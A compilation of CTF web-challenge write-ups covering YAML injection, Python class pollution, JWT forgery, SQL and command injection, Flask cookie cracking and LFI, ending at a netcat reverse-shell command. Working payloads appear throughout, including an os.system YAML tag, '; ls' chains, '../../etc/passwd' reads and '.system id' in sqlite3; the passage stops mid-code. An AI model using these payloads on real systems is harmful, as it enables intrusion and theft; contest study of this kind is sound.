**YAML (YAML Ain't Markup Language)** is a human-readable data format, often used for configuration files (like in CI/CD tools, Kubernetes, etc.).

Example YAML:

```yaml
user: admin
is_admin: false
```

---

💉 What is YAML Injection?

**YAML Injection** happens when an attacker can **inject malicious YAML content** into an application that later parses it **unsafely**. If the YAML parser treats user input as trusted YAML code, an attacker might manipulate the logic or even achieve **Remote Code Execution (RCE)** in some cases.

---

🧠 Simple Analogy:

Think of YAML like a recipe book. If you let someone write in it without checking, they might replace “2 eggs” with “a bomb” — and the chef (YAML parser) will still follow the instructions!

---

🔥 Basic Exploit Example:

Imagine a web app stores YAML like this:

```yaml
name: <user_input>
```

And a user inputs:

```yaml
name: !!python/object/apply:os.system ["ls"]
```

Now the final YAML becomes:

```yaml
name: !!python/object/apply:os.system ["ls"]
```

If parsed using `PyYAML.load()` (an **unsafe** parser), this will execute the `ls` command on the server — 🎯 RCE achieved.

**Solution :**

**Source code ,**

The challenge comes with source code, `server.js` is most relevant.

```jsx
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const path = require("path");
const yaml = require("js-yaml");
const app = express();
app.use(bodyParser.text());

app.post("/", (req, res) => {
    try {
        if (req.body.includes("flag")) {
            return res.status(403).send("Not allowed!");
        }
        if (req.body.includes("\\") || req.body.includes("/") || req.body.includes("!!") || req.body.includes("<")) {
            return res.status(403).send("Hello, Hacker :)");
        }
        const data = yaml.load(req.body);
        const filePath = data.file;

        if (filePath && fs.existsSync(filePath)) {
            const content = fs.readFileSync(filePath, "utf8");
            return res.send(content);
        } else {
            return res.status(404).send("File not found");
        }
    } catch (err) {
        return res.status(400).send("Invalid request");
    }
});

app.listen(3000, () => {
    console.log("Server listening on port 3000");
});
```

***Breaking it down ,***

The app processes POST requests, parses YAML from the request body, and attempts to read a file specified in the YAML content.

WAF checks if:

- `'flag'` is in the raw request body → 403.
- `'/'`, `'\\'`, `'!!'`, or `'<'` are present → 403.
If checks pass, it tries to access `data.file`.


***YAML Injection ,***
The challenge description already gave a sample curl command.

```bash
curl -X POST "[http://challs.tsukuctf.org:50001](http://challs.tsukuctf.org:50001/)" -H "Content-Type: text/plain" -d "file: flag.txt"
```

Not allowed!
Imagine if it gave the flag 😆 It doesn't since "flag" is a blocked keyword.

I tried a lot of suggestions from ChatGPT; unicode chars, splitting the flag into variables, adding newlines etc. Nothing worked and it kept going in circles.

I checked this [guide](https://book.jorianwoltjer.com/languages/yaml#javascript-js-yaml-less-than-4.0) from J0r1an but we can't use the < character, and it specifies versions < 4.0, while this challenge uses the latest version of js-yaml (^4.1.0).

I searched through previous CTF writeups but wasn't getting anywhere. Eventually, I swapped the ChatGPT model from o4 to o3 and found a working solution.

```bash
curl -X POST "[http://challs.tsukuctf.org:50001](http://challs.tsukuctf.org:50001/)" -H "Content-Type: text/plain" --data-binary $'%TAG !b! tag:yaml.org,2002:\n---\nfile: !b!binary "ZmxhZy50eHQ="'
```

TsukuCTF25{YAML_1s_d33p!}
Here's the logic behind the payload:


Flag: `TsukuCTF25{YAML_1s_d33p!}`

Or ,

`flag.txt` If you can read the flag, you can get the flag, but  you  cannot send a request that contains strings such as and `flag/`

I thought about poking holes in the YAML specification (alias function, etc.) to get the flag, but these were also blocked by the aforementioned processing

I was in a state of limbo, so I searched for any hints and found the following article

[CTF: Best Web Challenges 2022 | XS-Spin Blog](https://blog.arkark.dev/2022/12/17/best-web-challs/#%E3%82%B7%E3%83%B3%E3%83%97%E3%83%AB%E9%83%A8%E9%96%80-simplewaf---corctf-2022)

`fs.readFileSync` accepts as a parameter  , and  it seems that URL encoding can be used for file paths by passing an object of the form`<string> | <Buffer> | <URL> | <integer>URL`

[File system | Node.js v23.11.0 Documentation](https://nodejs.org/api/fs.html#fsreadfilesyncpath-options)

```bash
curl -X POST "http://20.2.250.108:50001" -H "Content-Type: text/plain" -d 'file:
  href: "x"
  origin: "x"
  protocol: "file:"
  hostname: ""
  pathname: "%66lag.txt"'
```

`TsukuCTF25{YAML_1s_d33p!}`

### **Problem - 11 :**

There was a link of the site :’/

[https://drive.google.com/file/d/1OESmd4LhTVEUwmaLRDx4gOsQpFbumk4R/view?usp=drive_link](https://drive.google.com/file/d/1OESmd4LhTVEUwmaLRDx4gOsQpFbumk4R/view?usp=drive_link)

**Solution :**

Index page :


In here, we can write our blog posts in the web application.

But first, we’ll need to be authenticated. Let’s create a new account!


Then login to our new account:


After that, we’ll be redirected to `/`:


Now we got 4 new pages to explore!

Dashboard:


In here, we can create new blog posts and make them public:


Profile:


It just displays our username.

Feedback:


In here, we can submit this web application’s feedback!

Let’s try to submit a new one!


After submitting, an alert box will pop up:


**Burp Suite HTTP history:**


When we click the “Submit” button, it’ll send a POST request to `/save_feedback` with a JSON body data.

Hmm… There’s not much we can do in here. Let’s read this web application’s source code!

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/web/co2/co2.zip):**

After reviewing the source code, we have the following findings:

- This web application is written in Python with Flask web application framework

Let’s dive deeper into the source code!

First of, what’s our objective? Where’s the flag?

In **route `/get_flag`** at `co2/app/routes.py`, we can get the flag while being authenticated. However, there’s **an interesting if statement**:


Wait what?! **How can the `flag` becomes string `true`** when it’s already defined?

So, our objective in this challenge, is to **somehow set the `flag` variable to be string `true`**!

**Also, we can see the following interesting class and its comment:**

```python
# Not quite sure how many fields we want for this, lets just collect these bits now and increase them later. 
# Is it possible to dynamically add fields to this object based on the fields submitted by users?
class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""
```

Hmm… It seems like the `Feedback` class will have another addition fields to be added?

Where does this class is being used?

```python
from .utils import merge, save_feedback_to_disk
[...]
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200
```

As you can see, the POST route `/save_feedback` uses the `Feedback` class!

In the comment, it says the **`merge`** function from `co2/app/utils.py` should dynamically add user input’s attributes into the `feedback` object.

Let’s take a look at the `merge` function!

```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

In this `merge` function, it’s a **recursive merge function**, which basically means it combines an object to another object.

In this case, it combines our parsed JSON object to the `feedback` object.

Unfortunately, if there’s no sanitization to sanitize the object’s key, such as `__init__`, `__globals__`, it’s vulnerable to **Python class pollution**. (In JavaScript it’s called Prototype Pollution)

Therefore, we can **exploit the class pollution vulnerability to overwrite the `flag`’s value to be string `true`**!!

But wait, **how can we reach the web application’s `flag` variable**?

To find it, we can build a local testing environment.

- Modify `co2/run.py`

```python
from app import create_app

app = create_app()

if __name__ == '__main__':
    # app.run(debug=False, host="0.0.0.0")
    app.run(debug=True, host="0.0.0.0", port=1337)
```

In here, we set the `debug` mode to `True`, as well as the `port` set to `1337`.

- Add the following code in the last line at `co2/app/routes.py`

```python
feedback = Feedback()
flag = feedback
print(f'{flag=}')
```

This allows us to test how can we get the `flag` variable.

- Build the Docker containers

```python
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/co2)-[2024.07.09|13:40:19(HKT)]
└> cd co2 
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/co2/co2)-[2024.07.09|13:40:25(HKT)]
└> docker-compose -f "docker-compose.yml" up -d --build
[...]
```

After building the Docker containers, we can now find the `flag` variable via the `feedback` object.

Since I’m using Visual Studio Code (vscode), the Docker extension and “Dev Containers” allows us to attach vscode and debug a Docker container:


After attaching, we can explore the Docker container’s directory:


Then, we can display the running Flask application’s log in real time:


Nice! We can now find the `flag` variable via the `feedback` object!

First off, we can use `__class__` special attribute then `__init__` to get the `Feedback` class, or `__init__` method to get the initialized `feedback` object:

`flag = feedback.__class__.__init__`

Or:

`flag = feedback.__init__`

Save it **once or twice**, and you should see the following message in the log:

`flag=<bound method Feedback.__init__ of <app.routes.Feedback object at 0x7f0fcadede50>>`

Then, in Python, we can use the `__globals__` special attribute to get all the global objects, which will return a dictionary object:

`flag = feedback.__init__.__globals__`

Log message:

```python
flag={'__name__': 'app.routes', [...], 'app': <Flask 'app'>, [...], 'flag': {...}, 'Feedback': <class 'app.routes.Feedback'>, [...]}
```

In here, we can see a lot of built-in classes, as well as the running Flask application `app` object.

This is because in the `co2/app.py`, the Flask object is called `app`.

But most importantly, we can also see **the `flag` variable**! Let’s read that variable’s value!

`flag = feedback.__init__.__globals__['flag']`

> Note: The __globals__ special attribute returns a dictionary object, that’s why we’ll need to use the ['<key_here>'] syntax.
> 

`flag='false'`

As expected, it’s boolean `False`!

Exploitation

Now that we know how to get the `flag` variable by using `__init__.__globals__['flag']`, we can pollute it with string `true`!

Let’s test it in our local environment!

**To do so, we’ll send a POST request to `/save_feedback` with the following JSON body:**

```python
POST /save_feedback HTTP/1.1
Host: localhost:1337
Cookie: session=.eJwlzkEOwkAIAMC_7NkDy8IC_YyhC0SvrT0Z_66J84J5t3sdeT7a9jquvLX7M9rWNESqArEAVHCIdQCWvmuf0xQXuyImLjIG8MIkhAAaPSZlDuxqZQg1yIUKrLw4MtLcfU2sGG6LhKY6M6MgY-61qEsCabVf5Drz-G96-3wBOFMuUQ.Zozftw.Q_HN_NwdRGrGpCl4NjPSjxXdOcw
Content-Length: 7
Content-Type: application/json

{
    "title":"literally_anything",
    "content":"literally_anything",
    "rating":"literally_anything",
    "referred":"literally_anything",
    "__init__":{
        "__globals__":{
            "flag": "true"
        }
    }
}
```

> Note: Remember, this route requires authentication.
> 


Now the `flag` variable’s value should be string `true`!

**Finally, we can send a GET request to `/get_flag` to get the flag!**

```python
GET /get_flag HTTP/1.1
Host: localhost:1337
Cookie: session=.eJwlzkEOwkAIAMC_7NkDy8IC_YyhC0SvrT0Z_66J84J5t3sdeT7a9jquvLX7M9rWNESqArEAVHCIdQCWvmuf0xQXuyImLjIG8MIkhAAaPSZlDuxqZQg1yIUKrLw4MtLcfU2sGG6LhKY6M6MgY-61qEsCabVf5Drz-G96-3wBOFMuUQ.Zozftw.Q_HN_NwdRGrGpCl4NjPSjxXdOcw
```


Nice! Let’s get the real flag on the remote instance by repeat the above steps!


- **Flag: `DUCTF{_cl455_p0lluti0n_ftw_}`**

### **Problem - 12 : (JWT)**

I just made a website. Since cookies seem to be a thing of the old days, I updated my authentication! With these modern web technologies, I will never have to deal with sessions again. Come try it out at [http://litctf.org:31781/](http://litctf.org:31781/)

hint : **jwt**

**Solution :**


“ get flag “ doesn’t give flag . We have to make an account and then sign in . 


After sign in , get flag will not give the flag just showing “unothorized” ,


As question’s say , there is something with cookie session , let’s find that by burp suite ,


now we have to make this jwt token authority to admin priviledge  ,

link ——>>>> https://jwt.io/


now , make it “ true “


now , replace this token with previous token in burp suit and GET /login so that u confirm you are securely loged in ,


Now , change /login with /flag with same token ,


> Flag = LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}
> 

### **Problem - 13 : (JWT)**

Like previous “ jwt “ but harder

[http://litctf.org:31777/](http://litctf.org:31777/)

[https://drive.google.com/file/d/17zRl82cHz7U10eKkKIjdKOLZhzZoaB5N/view?usp=drive_link](https://drive.google.com/file/d/17zRl82cHz7U10eKkKIjdKOLZhzZoaB5N/view?usp=drive_link)

**Solution :**

This problem is like the same . Just the difference is that there is a secret base-64 key need extra to make the cookie which we will get in the resource given ,

**Found secret key**

```cpp
const jwtSecret = "xook";
```


turn ( admin : true ) and secret code to “xook”


Now get the ( GET /flag ) ,


> flag = LITCTF{v3rifyed_thI3_Tlme_1re4DV9}
> 

### **Problem - 14 : (Curl_base64)**

WARNING: your computer might go kablewy if you try to do this one... URL: http:// [litctf.org:31782/](http://litctf.org:31782/)

**Solution :**

If we open this link in the normal web explorer , we will not be able to get anything because it will crash the pc for some moment.

For this , wise decision is to  check the site terminally ,

1st , view the page source ,


Didn’t get any juicy info but if we go to the “ /assets/index-DLdRi53f.js ”


we will see some interesting strings. Now , let’s download it ,


after opening ,


There are many ciphers and those are base64 (Cipher identifier)

```python
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZE1KeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZEpKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZFVKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZERKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZFVKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZEdKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZDdKeWs3IikpfSkoKTsK
KGZ1bmN0aW5uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZHJKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDY3pKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZEdKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDYzNKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZDZKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZElKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2V2YWwoYXRvYigiZDJocGJHVWdLSFJ5ZFdVcElHTnZibk52YkdVdWJHOW5LQ2RyWVdKc1pYZDVKeWs3Q25CdmMzUk5aWE56WVdkbEtDZDlKeWs3IikpfSkoKTsK
KGZ1bmN0aW9uKCl7InVzZSBzdHJpY3QiO2Zvcig7Oyljb25zb2xlLmxvZygia2FibGV3eSIpfSkoKTsK
```

we will have to 2 times decode it to get the flag .


### **Problem - 15 :**

pfft.. Listen, I’ve gained access to this login portal but I’m not able to log in. The admins are surely hiding something from the public, but… I don’t understand what. Here take the link and be quiet, don’t share it with anyone

**Solution :**

we are presented with a login page, if you try to login with default credentials nothing will work, so as the name suggests its SQL injection.


the first payload i tried is  `admin' or 1==1 --`


and we get an exception from the Werkzug server, the good thing about these messages is that it shows 5 lines above and bottom of the line that got the error.


```python
if username == 'admin':
	return redirect(url_for('admin'))
```

so if the user is admin in the input it will redirect the user to the admin page, which is /admin.

if we go to `http://34.16.207.52:3635/admin` we will find the flag!!!


Flag: `OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}`

### **Problem - 16 : (PATH_Changing_With_SQLi)**

The production of this application has been completely indoor so that no corona virus spreads, but that’s an old talk right?

**Solution :**

- This question is a web category where we need to look for flags in web vulnerabilities with web clues which can be accessed via IP [http://34.16.207.52:3635/](http://34.16.207.52:3635/).


Style Query Listing…? — Challenge

- You can see there is a login column where we can fill in the username and password, the first step we tried to enter the **default** username and password, namely admin admin but it doesn’t seem to work.


Style Query Listing…? — Challenge

- Returning to the initial login menu, we tried the **SQL injection** input again to check the input vulnerability of the login, we input **‘or’1’=’1** on username and password.


Style Query Listing…? — Challenge

- The SQL injection input seems to be successful and the page displays information, but I think I’m suspicious haha.


Style Query Listing…? — Challenge

- There is a flag that says The flag is: OSCTF{This_is_a_fake_flag} and after we tried to input the flag it was true that the flag was wrong and we needed to look for further information.
- We remembered the question that said **“The admins are surely hiding something from the public”** it seems there is a connection with the admin page on this website, now we have successfully logged in to the profile page.


Style Query Listing…? — Challenge

- We tried changing **/profile** to **/admin** to check whether there is a **/admin** page on this website.


Style Query Listing…? — Challenge

- And boomm, we found the correct flag.

> OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}
> 

### **Problem - 17 : (flask_unsign_bruteforce)**

I have created this notes taking app so that I don’t forget what I’ve studied

**Solution :**

Another interesting challenge. Go ahead and register-login into the site and inspect the page.

We find a cookie that looks awfully like a `Flask Cookie`.

If you don’t know what flask is, **Flask** is a lightweight, web development framework built using python language. Generally, for building websites we use HTML, CSS and JavaScript but in flask the python scripting language is used for developing the web-applications.

To identify the type of cookie, I’d say it pretty much comes to experience but there is also ways to identify them.

Flask uses its own cookie serialization format called “itsdangerous,” which encodes and signs data to protect it from tampering.

**How to Identify:**

- Flask cookies often look like long, base64-encoded strings.
- The string typically includes a separator (`.` or `.`) followed by a signature.

in [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask) we can see there is a tool called `flask-unsign`, if we put the cookie in it and try to decode it we will get:


using the tool we can try to crack the secret code using the same tool with this command:


and we got the secret key!!!

Secret Key: `supersecretkey`

so know we can sign our own cookies and change the username to admin.


and we got our new cookie, if we change it with the new one in our browser, we will see some players trolling, but if we go to /admin we will find the flag.


After inserting the new cookie, we get a bunch of fake flags. Like OSCTF{y0u_tH0ghT_tH1s_W4s_Th3_fL4G}.

```bash
└─$ ffuf -w /mnt/c/Documents4/CyberSec/Resources/SecLists/Fuzzing/fuzz-Bo0oM.txt -u http://34.16.207.52:8965/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://34.16.207.52:8965/FUZZ
 :: Wordlist         : FUZZ: /mnt/c/Documents4/CyberSec/Resources/SecLists/Fuzzing/fuzz-Bo0oM.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 302, Size: 199, Words: 18, Lines: 6, Duration: 241ms]
login                   [Status: 200, Size: 582, Words: 123, Lines: 20, Duration: 239ms]
:: Progress: [4842/4842] :: Job [1/1] :: 85 req/sec :: Duration: [0:00:56] :: Errors: 0 ::
```

Now, we find an interesting directory to enumerate. `/admin`.


This happened because the cookie is still set with the proper admin credentials.

Flag: `OSCTF{Av0id_S1mpl3_P4ssw0rDs}`

### **Problem - 18 : ( Robots )**

Robots are taking over. Find out more.

**Solution :**

When entering the challenge page all we can see is a static page telling us that “Robots are taking over”


Pressing ctrl+a shows us ,


In the “ flag.txt ” → there exists a 2 times base64 code . But after decoding nothing gives us rather than “Robots are talking to each other”

Lets check out the *robots.txt* file.


It’s just reveals a huge set of directories . But from that there is an interesting directory with flag but rest of the part was encoded with base64 .  


Basically that encrypted text is the flag not the directory 🙂

Base64 decoding **UlN7UjBib3RzX2FyM19iNGR9** returns the flag.

```
RS{R0bots_ar3_b4d}
```

### **Problem - 19 : ( Session_ID_decrypt )**

Find the flag.

**Solution :**

Entering the challenge page we get a login form.


Trying to login just re-renders the login form, lets check out the source to see if we can find anything useful.

```html
<html>
<head>
    <title>Iroh - Login</title>
    <!--#remove comment later: login iroh:iroh-->
</head>
<body style="background-color:orange;">
    <h2>Login</h2>
    <form action="" method="post">
        <input type="text" placeholder="Username" name="username" value="a">
        <input type="password" placeholder="Password" name="password" value="a">
        <input class="btn btn-default" type="submit" value="Login">
    </form>
</body>
</html>
```

---

Looks like someone forgot to remove the comment. Using credentials *iroh:iroh* we are able to login and get a new page.


In the BIO we may find a flag but it lands on the rickrolled page ,


Looking around the page yields no further information, taking a look at the cookies we find that we have a cookie called **sessiontoken** with the base64 encoded 

value **UlN7MG5seV9PbmVfczNzc2lvbl90b2szbn0=**. Decoding the value gives us the flag.


```
RS{0nly_One_s3ssion_tok3n}
```

### **Problem - 20 : ( DababyWeb_Path_Command_injection )**

Dababy wanted to share a message, but he seemed to put it too high up…

**Solution :**

Starting by opening challenge link [http://34.72.118.158:6284/](http://34.72.118.158:6284/)


We can see two links **Dababy's Name Judgement** and **Dababy's Images**

Let's check the page source

```html
<html
body, html{
height= 100%;
}

<div style ="background-image: url('/img/dababy.jpg')"
height= 100%;
background=size: cover;

>

<h1 style= color:black;font-size:40px;>
"Dababy has his secret message hidden somwhere, but how can we read it?"

<a href="fun.php">Dababy's Name Judgement</a>
<p></p>
<a href="fun1.php?file=suge">Dababy's Images</a>
</h1>
</html>
```

We have two php files **fun.php** adn **fun1.php** let's check them

**fun.php**

[http://34.72.118.158:6284/fun.php](http://34.72.118.158:6284/fun.php)


It's **DaBaby Cool Name Convertable** it gives the output : "our input" Is a Cool Name Lesss Go!

We can see that we have a get parametre **string** fun.php?string=input

Let's try some command injection, i started with chaining commands using ";ls"

Using the command **ls** [http://34.72.118.158:6284/fun.php?string=%3B+ls](http://34.72.118.158:6284/fun.php?string=%3B+ls)

Output : `dababy.sh Is a Cool Name Lesss Go!`

We can see that our command has been executed, we found a file in our directory

I tried the read the file using cat `; cat dababy.sh`

Output : `Dababy say's no peaking`

I tried also other commands but it shows the same thing or a picture xd :


I used the command cd and ls to search for a flag file using ;cd && ls [http://34.72.118.158:6284/fun.php?string=%3Bcd+..+%26%26+ls](http://34.72.118.158:6284/fun.php?string=%3Bcd+..+%26%26+ls)    ( ;cd .. && ls )

Output : `flag.txt Is a Cool Name Lesss Go!`

i found the flag.txt path

**fun1.php**

[http://34.72.118.158:6284/fun1.php?file=suge](http://34.72.118.158:6284/fun1.php?file=suge)

We can see the the fun1.php has a get parametre file that show a txt file suge at the first bloc


I started by checking for LFI [http://34.72.118.158:6284/fun1.php?file=../../../../../etc/passwd](http://34.72.118.158:6284/fun1.php?file=../../../../../etc/passwd)

Output

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```

We were able to perform a local file inclusion to read the passwd file, now let's read our flag.txt

[http://34.72.118.158:6284/fun1.php?file=../flag.txt](http://34.72.118.158:6284/fun1.php?file=../flag.txt)

And we got our flag

**Flag**

`RS{J3TS0N_M4D3_4N0TH3R_0N3}`

### **Problem - 21 : (Baby SQLi)**

Just login as admin.

[http://web.ctf.zer0pts.com:8004](http://web.ctf.zer0pts.com:8004/)

Attachments: baby_sqli.tar.gz

**Solution :**

Despite being called Baby SQLi, this challenge was very hard for me.

Here's the challenge:

```python
import flask
import os
import re
import hashlib
import subprocess

app = flask.Flask(__name__)
app.secret_key = os.urandom(32)

def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result

def sqlite3_escape(s):
    return re.sub(r'([^_\.\sa-zA-Z0-9])', r'\\\1', s)

@app.route('/')
def home():
    msg = ''
    if 'msg' in flask.session:
        msg = flask.session['msg']
        del flask.session['msg']
    if 'name' in flask.session:
        return flask.render_template('index.html', name=flask.session['name'])
    else:
        return flask.render_template('login.html', msg=msg)

@app.route('/login', methods=['post'])
def auth():
    username = flask.request.form.get('username', default='', type=str)
    password = flask.request.form.get('password', default='', type=str)
    if len(username) > 32 or len(password) > 32:
        flask.session['msg'] = 'Too long username or password'
        return flask.redirect(flask.url_for('home'))

    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    if result:
        flask.session['name'] = username
    else:
        flask.session['msg'] = 'Invalid Credential'
    return flask.redirect(flask.url_for('home'))

if __name__ == '__main__':
    app.run(
        host='0.0.0.0',
        port=8888,
        debug=False,
        threaded=True
    )
```

The app uses the `sqlite3_escape()` function to prevent SQL injection by escaping certain characters like `;` and `"` with backslashes. However, SQLite uses **double quotes** for escaping, not backslashes, making the escaping ineffective in some cases.

The issue here is that in SQLite, quotes are escaped by doubling them up rather than using a backslash. (\)

```sql
sqlite> SELECT "I ""like"" beans";
I "like" beans
sqlite> SELECT "I \"like\" beans";
Error: unrecognized token: "\"
```

Ok, let's try to inject an `OR ""=""` to make it return true.

```python
import requests

url = "http://localhost:8004"
username = '" OR ""='
assert len(username) <= 32
data = {"username": username, "password": "hi"}
res = requests.post(f"{url}/login", data)
print(res.text)
```

Turns out it's not that simple. Our SQL query ends up looking like this:

```sql
SELECT * FROM users WHERE username="\" OR \"\"\=" AND password="8f434346648f6b96df89dda901c5176b10a6d83961dd3c1ac88b59b2dc327aa4";

Error: near line 1: unrecognized token: "\\"\n
```

Though we can escape the quotes, the backslashes always result in invalid syntax, which causes SQL to throw an error. I was stuck here for a while until I looked more closely at this:

```python
p = subprocess.Popen(['sqlite3', 'database.db'],
                     stdin=subprocess.PIPE,
                     stdout=subprocess.PIPE,
                     stderr=subprocess.PIPE)
```

Now why the heck would they do that instead of using the `sqlite3` module? Then I realized that since our output goes into the `sqlite3` command line shell, we can inject dot commands like `.dump`, `.print`, and crucially, `.system`.

When the user inputs a specially crafted string, it ends up in the SQLite query in a vulnerable form. By injecting specific commands into the `username` field, the attacker can force the application to execute system commands via the `.system` command in the SQLite shell.

Let's try it:

```bash
username = '";\n.system id\n'
```

It works! On my local setup, I printed the value of `o` to see this:

```bash
babysqli_1  | output: uid=1000(app) gid=1000(app)
```

With some trial and error, I found that I can also use special characters like (`-`, `,`, and `|`) because the `sqlite3` command shell doesn't care about backslashes.

But there's another catch:

```python
p = subprocess.Popen(['sqlite3', 'database.db'],
                     stdin=subprocess.PIPE,
                     stdout=subprocess.PIPE,
                     stderr=subprocess.PIPE)
o, e = p.communicate(sql.encode())
if e:
    raise Exception(e)
```

If `stderr` contains anything, then an exception will be thrown and it won't let us log in. The only way around this is to spawn a reverse shell like this:

```bash
nc $RHOST $RPORT -e sh
```

Let's try it:

```bash
